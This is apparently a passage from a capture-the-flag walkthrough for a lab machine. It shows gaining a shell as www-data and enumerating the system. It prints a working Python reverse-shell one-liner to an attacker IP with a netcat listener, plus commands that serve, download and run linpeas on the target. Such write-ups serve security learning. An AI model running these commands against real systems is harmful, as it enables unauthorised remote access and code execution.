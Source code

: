 ```
  _|__|__|   ||_|__|__|__|__|__|__|| ||__|__|__|__|__|__|_||-  |__|__|_
  -|--|--|   ||-|--|--|--|--|--|--|| ||--|--|--|--|--|--|-||   |--|--|-
   |  |  |=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |  |  |
   |  |  |-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |  |  |
   |  |  |=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |  |  |
   |  |  |   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||-  |  |  |
  _|__|__|   || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |__|__|_
  -|--|--|=  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||   |--|--|-
  _|__|__|   ||_|__|__|__|__|__|__|| ||__|__|__|__|__|__|_||-  |__|__|_
  -|--|--|=  ||-|--|--|--|--|--|--|| ||--|--|--|--|--|--|-||=  |--|--|-
  jgs |  |-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||-  |  |  |
 ~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^~~~~~~~~~~~

W e l c o m e, s t r a n g e r . . .

```


# Lucien

Using whoami shows that we're currently the www-data user.

I prefer reverse shells over webshells, so let's get one going:
```
open listener:
sudo nc -lvnp 9001

use this on the target:
export RHOST="10.11.72.104";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

To help enumerating the system, I move linpeas onto the target:

```
#move into the folder where linpeas is
#open a server with:
python3 -m http.server 80

#now on the target, get linpeas:
wget <attackbox ip>/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```

Linpeas notes:

system listens to mysql ports from localhost

interesting files that we can execute:
/home/death/getDreams.py
/opt/test.py

